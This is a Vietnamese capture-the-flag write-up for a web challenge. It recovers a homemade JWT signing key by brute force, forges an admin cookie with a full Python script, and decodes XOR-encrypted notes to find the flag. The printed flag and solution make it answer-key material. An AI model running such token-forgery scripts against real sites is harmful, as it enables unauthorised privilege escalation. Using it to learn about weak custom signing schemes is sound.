 ![image](https://github.com/user-attachments/assets/82b51914-7e59-4cbc-aa05-3552231cc769)

# **ANALYZE**

![image](https://github.com/user-attachments/assets/06093cb2-9bc1-42d4-8054-21e607967744)

Các chức năng của trang web có vẻ không có j nổi bật ngoài tạo tài khoản và xem các sản phẩm , 

Theo mô tả của đề bài thì mục tiêu của ta sẽ là cố gắng leo thang đặc quyền để trở thành admin.

ở trong tệp /robots.txt , tôi đã tìm thấy 1 số thứ khá hay ho -)) 

đây là 1 loại mã hóa khá đơn giản 
```
User-agent: * 
Disallow: 

# Gonna jot the encryption scheme I use down for later -The Incredible Admin
#
# def encrypt(inp):
#   enc = [13]
#   for i in range(len(inp)):
#     enc.append(ord(inp[i]) ^ 42)
#   return enc[1:]
```

và tôi đã tìm thấy mảnh ghép quan trọng thứ 2 để solve bài này ở mục product 

```
Revolutionary new Hashing Algorithm!!!
Made by our site's very own admin over many hours of work! It's so good that they decided to use it any time they need a hash!
        def has(inp):
            hashed = ""
            key = jwt_key
            for i in range(64):
                hashed = hashed + hash_char(inp[i % len(inp)], key[i % len(key)])
            return hashed

        def hash_char(hash_char, key_char):
            return chr(pow(ord(hash_char), ord(key_char), 26) + 65)
    
```

Từ 2 đoạn mã này , ta có thể hiểu rằng là : bài này chính là 1 dạng JWT , chúng ta sẽ phải sửa lại JWT để trở thành admin


sau khi tôi thử tạo 1 tài khoản bất kì , tôi đã nhận được 1 cookie : 
![image](https://github.com/user-attachments/assets/82dfecde-4a65-474a-9388-3fd40da1be32)

Và mục tiêu của chúng ta chính là đổi mục 
`"admin": "false"` trở thành   `"admin": "true"`

Và bên trên có chính là thuật toán mã hóa JWT tự chế của tác giả  -))
Bây giờ chúng ta phải từ cookie vừa có được , đi ngược lại để tìm ra được JWT-key

# **EXPLOIT**

Và tôi đã nhờ chatgpt viết script tự động hóa việc tìm ra jwt_key và gen ra cookie mới để leo thang đặc quyền lên admin : 

```
import base64
import json
import string

# ------------------------------------
# Helper functions

# Base64 URL-safe without padding
def b64url_encode(data):
    return base64.urlsafe_b64encode(data).decode().rstrip('=')

def b64url_decode(data):
    padding = '=' * (4 - len(data) % 4)
    return base64.urlsafe_b64decode(data + padding)

# hash_char from challenge
def hash_char(hash_char, key_char):
    return chr(pow(ord(hash_char), ord(key_char), 26) + 65)

# ------------------------------------
# Given JWT
jwt = "eyJhbGciOiAiQURNSU5IQVNIIiwgInR5cCI6ICJKV1QifQ.eyJ1c2VybmFtZSI6ICJzIiwgInBhc3N3b3JkIjogInMiLCAiYWRtaW4iOiAiZmFsc2UifQ.JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB"

header_b64, payload_b64, signature = jwt.split('.')

# inp = header_b64.payload_b64
inp = header_b64 + '.' + payload_b64

# ------------------------------------
# Brute force jwt_key

key_len = 64
possible_chars = string.printable  # All printable ASCII characters

jwt_key = ''

print("Brute forcing jwt_key...")
for i in range(key_len):
    target_char = signature[i]
    inp_char = inp[i % len(inp)]
    
    found = False
    for c in possible_chars:
        if hash_char(inp_char, c) == target_char:
            jwt_key += c
            found = True
            break
    
    if not found:
        print(f"[!] Could not find key_char for position {i}")
        jwt_key += '?'  # Placeholder in case of failure
    
    print(f"Position {i}: found key_char = {jwt_key[-1]!r}")

print(f"\nRecovered jwt_key:\n{jwt_key}")

# ------------------------------------
# Forge new JWT with admin=true

new_payload = {
    "username": "admin",
    "password": "whatever",
    "admin": "true"
}

# Re-encode
new_payload_b64 = b64url_encode(json.dumps(new_payload, separators=(',', ':')).encode())
new_inp = header_b64 + '.' + new_payload_b64

# Recompute signature
new_signature = ''
for i in range(64):
    new_signature += hash_char(new_inp[i % len(new_inp)], jwt_key[i % len(jwt_key)])

# Final forged JWT
forged_jwt = f"{header_b64}.{new_payload_b64}.{new_signature}"

print("\n[+] Forged JWT:")
print(forged_jwt)


```

kết quả trả về : 

```
eyJhbGciOiAiQURNSU5IQVNIIiwgInR5cCI6ICJKV1QifQ.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJ3aGF0ZXZlciIsImFkbWluIjoidHJ1ZSJ9.JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB
```
![image](https://github.com/user-attachments/assets/baa947c2-702b-4887-aa95-c3bc1b9dfdf1)

Sau khi ném JWT mới vào cookie thì ta đã vào được giao diện của admin : 

![image](https://github.com/user-attachments/assets/55750401-ad92-4f58-8100-86e5d8afd6d9)

Khi vào tới mục To-Do , ta thấy có 4 đoạn mã hex  :

![image](https://github.com/user-attachments/assets/d7ac612e-8bfe-4017-8f5d-56a531c5d4ac)

việc tiếp theo là dịch nó ra thì đơn giản rồi : 
```
def decrypt(enc_list):
    return ''.join(chr(c ^ 42) for c in enc_list)

# Data
lists = [
    [108, 67, 82, 10, 77, 70, 67, 94, 73, 66, 79, 89],
    [107, 78, 92, 79, 88, 94, 67, 89, 79, 10, 73, 69, 71, 90, 75, 68, 83],
    [105, 88, 79, 75, 94, 79, 10, 8, 72, 95, 89, 67, 68, 79, 89, 89, 117, 89, 79, 73, 88, 79, 94, 89, 8, 10, 90, 75, 77, 79, 10, 7, 7, 10, 71, 75, 78, 79, 10, 67, 94, 10, 72, 95, 94, 10, 68, 69, 10, 72, 95, 94, 94, 69, 68, 10, 94, 69, 10, 75, 73, 73, 79, 89, 89, 10, 83, 79, 94],
    [126, 75, 65, 79, 10, 69, 92, 79, 88, 10, 94, 66, 79, 10, 93, 69, 88, 70, 78, 10, 7, 7, 10, 75, 70, 71, 69, 89, 94, 10, 78, 69, 68, 79]
]

# Giải mã từng dòng
for i, l in enumerate(lists):
    text = decrypt(l)
    print(f"[Line {i+1}] {text}")

```

```
[Line 1] Fix glitches
[Line 2] Advertise company
[Line 3] Create "business_secrets" page -- made it but no button to access yet
[Line 4] Take over the world -- almost done
```

Vậy có nghĩa là flag đang nằm ở path   `business_secrets`

![image](https://github.com/user-attachments/assets/05728476-2faa-4707-8c99-9778ec680509)



# **FLAG**

```
tjctf{buy_h1gh_s3l1_l0w}
```

